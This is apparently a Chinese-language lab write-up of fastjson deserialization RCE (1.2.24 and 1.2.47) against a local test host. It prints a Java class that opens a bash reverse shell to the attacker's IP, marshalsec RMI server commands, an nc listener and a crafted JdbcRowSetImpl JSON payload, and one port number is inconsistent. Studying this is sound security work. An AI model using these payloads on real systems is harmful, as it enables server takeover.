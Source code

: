 # 背景

- fastjson是阿里巴巴公司开源的一款`json解析器`,其性能优越,被广泛应用于各大厂商的java项目中,`fastjson1.2.24`版本后增加了反序列化白名单,而在`1.2.48`以前的版本中,攻击者可以利用特殊构造的json字符串绕过白名单检测,成功执行任意命令

# fastjson反序列化(1.2.24-rce)

> 1.2.24-rce

### 环境准备



<img src="./assets/image-20241023142433451.png" alt="image-20241023142433451" style="zoom:50%;" />



- 攻击机:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 编辑一个恶意java类

```java
//shell.java
import java.lang.Runtime;
import java.lang.Process;
public class shell {
    static {
        try {
            //TODO:这里反弹shell的代码
            Runtime rt = Runtime.getRuntime();
            //TODO:这里需要填写自己攻击机的ip
            String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.2.13/8888 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
        }
    }
}

```

- 使用`javac`进行编译

```cmd
javac shell.java
```

<img src="./assets/image-20241023144805954.png" alt="image-20241023144805954" style="zoom:50%;" />

- 下载工具

```bash
git clone https://github.com/mbechler/marshalsec.git
```

<img src="./assets/image-20241023145939358.png" alt="image-20241023145939358" style="zoom:50%;" />

- 切换到克隆的文件里,使用`maven`攻击打包项目

<img src="./assets/image-20241023150134671.png" alt="image-20241023150134671" style="zoom:50%;" />

- 打包好了会多一个`target`

<img src="./assets/image-20241023150308744.png" alt="image-20241023150308744" style="zoom:50%;" />

- 把恶意类移动到`target`里

```bash
mv /home/kali/桌面/shell.class /home/kali/桌面/marshalsec/target
```

<img src="./assets/image-20241023150520512.png" alt="image-20241023150520512" style="zoom:50%;" />

- 在当前目录开启一个http服务

```bash
python -m http.server 90000
```

![image-20241023150715808](./assets/image-20241023150715808.png)

- 开启一个`rmi`服务器

```bash
# ip:port --> 刚才起的9000端口, 9999是rmi服务器端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.13:9000/#shell" 9999
```

![image-20241023151153585](./assets/image-20241023151153585.png)

- 监听端口(这个端口是恶意类里写的8888端口)

```bash
nc -lvvp 8888
```

![image-20241023151545397](./assets/image-20241023151545397.png)

- 打开`burp`访问网页抓包,构造恶意请求

```http
POST / HTTP/1.1
Host: 192.168.2.254:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.2.13:9999/shell",
			"autoCommit":true
	}
}
```

- 这里需要注意,修改为`post`请求方式
- `conctent-type`修改为这个`content-type:application/json`

![image-20241023151824172](./assets/image-20241023151824172.png)

- 反弹成功

![image-20241023151845402](./assets/image-20241023151845402.png)

### 漏洞原理

- fastjson在解析`json`文件的过程中,支持使用`atuo type`来实例化一个类,并调用`set/get`方法来访问属性,fastjson默认使用`@type`指定反序列化任意类
- 攻击手法:攻击者可以构造恶意类,通过`反序列化`过程中调用`getter/setter`方法,以及目标成员变量的注入来达到传参的目的,最终形成恶意调用链
- 利用`流程`

```bash
1.首先开启http服务器,并将恶意类放在目录下
2.开启恶意的RMI服务器
3.攻击者控制url参数为上一步开启rmi服务器地址
4.恶意rmi服务器返回referencewrapper类
5.目标(jnid client)在执行lookup操作时候,在decodeObject中将referenceWrapper变成Reference类,然后远程加载并实例化我们的factory类(即远程加载我们http服务器上的恶意类),在实例化时触发静态代码片段中的恶意代码
```

****

# fastjson反序列化(1.2.47)

> 1.2.47-rce

### 环境准备

<img src="./assets/image-20241023154208224.png" alt="image-20241023154208224" style="zoom: 33%;" />

### 开始攻击

- 所有步骤跟`1.2.24`一致

<img src="./assets/image-20241023160524485.png" alt="image-20241023160524485" style="zoom: 50%;" />

- 没什么说的

****